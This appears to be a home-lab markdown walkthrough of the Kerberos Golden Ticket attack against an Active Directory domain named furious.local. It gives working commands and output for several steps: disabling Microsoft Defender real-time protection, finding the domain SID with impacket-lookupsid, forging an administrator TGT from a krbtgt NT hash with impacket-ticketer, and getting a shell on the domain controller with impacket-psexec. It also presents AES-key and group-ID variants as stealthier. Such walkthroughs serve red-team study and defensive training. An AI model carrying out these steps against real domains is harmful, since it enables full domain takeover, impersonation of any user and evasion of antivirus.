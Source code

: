 # 🔐 Golden Ticket

A **Golden Ticket** attack involves forging a **Ticket Granting Ticket (TGT)** using the **krbtgt account's secret key** (NT hash or AES key). Since the **krbtgt** account signs all TGTs in a domain, **having its key means you can impersonate anyone**—including domain admins—**and access any resource** in the Active Directory (AD) domain.

### How It Works:

1. The **krbtgt** key is used to **sign the Privileged Attribute Certificate (PAC)** inside TGTs.
2. An attacker with the krbtgt key can:

   * Forge a fake TGT with any **username**
   * Assign any **group memberships** (e.g., Domain Admins)
   * Access **any service** by requesting Service Tickets with this forged TGT

> The forged TGT will be accepted as legitimate by domain controllers, enabling full control.

---

##  Misconfiguration

There is no such encoding needed because it's a post-exploitation step, but we have to turn off Microsoft Defender Antivirus real-time protection for testing:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

---

##  Practice

###  Key Points:

* **Before Nov 2021**: Any username could be used, even if it didn’t exist.
* **After Nov 2021**: The **username must exist** in Active Directory or the ticket will be rejected.
* Requires **Domain SID** and **krbtgt NT hash** or **AES key**.
* Typically retrieved via **DCSync attack** (requires Domain Admin access).
* It’s a **lateral movement** technique, **not** for privilege escalation.

---

## Golden Ticket Creation 

Let’s suppose we have the krbtgt account hash:

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7744a497b2191ab8c054b469fa11c7ec:::
```

And we know the username `jack` with password `complex`.

---

### 1. Find the Domain SID

Use `lookupsid.py`:

```bash
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/User@DC' 0
```

Example:

```bash
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/golden-ticket]
└─$ impacket-lookupsid furious.local/jack:complex1@@furious.local 0

[*] Brute forcing SIDs at furious.local
[*] StringBinding ncacn_np:furious.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3290932372-4080220911-1111251399
```

---

### 2. Create Golden Ticket with RC4 Key (NT hash)

```bash
impacket-ticketer -nthash "7744a497b2191ab8c054b469fa11c7ec" -domain-sid "S-1-5-21-3290932372-4080220911-1111251399" -domain "furious.local" "administrator"
```


```bash
──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/golden-ticket]
└─$ impacket-ticketer -nthash "7744a497b2191ab8c054b469fa11c7ec" -domain-sid "S-1-5-21-3290932372-4080220911-1111251399" -domain "furious.local" "administrator" 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for furious.local/administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in administrator.ccache
```

---

### 3. Export the Ticket

```bash
export KRB5CCNAME=administrator.ccache
```


### 4. Use Impacket psexec for Testing

```bash
impacket-psexec -k -no-pass furious.local/administrator@DC01-FURIOUS5.furious.local
```

```bash
┌──(kali㉿kali)-[~/Home-lab/Kerbrose/forged-ticket/golden-ticket]
└─$ impacket-psexec -k -no-pass furious.local/administrator@DC01-FURIOUS5.furious.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC01-FURIOUS5.furious.local.....
[*] Found writable share ADMIN$
[*] Uploading file myGqwtnQ.exe
[*] Opening SVCManager on DC01-FURIOUS5.furious.local.....
[*] Creating service lhEm on DC01-FURIOUS5.furious.local.....
[*] Starting service lhEm.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.587]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..
 
C:\Windows> 
```

---



####  Alternative: Golden Ticket with AES Key (Preferred, Stealthier)

```bash
ticketer.py -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser"
```

#### Customize User ID and Group IDs

```bash
ticketer.py -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id 500 -groups 512,513,520 "randomuser"
```
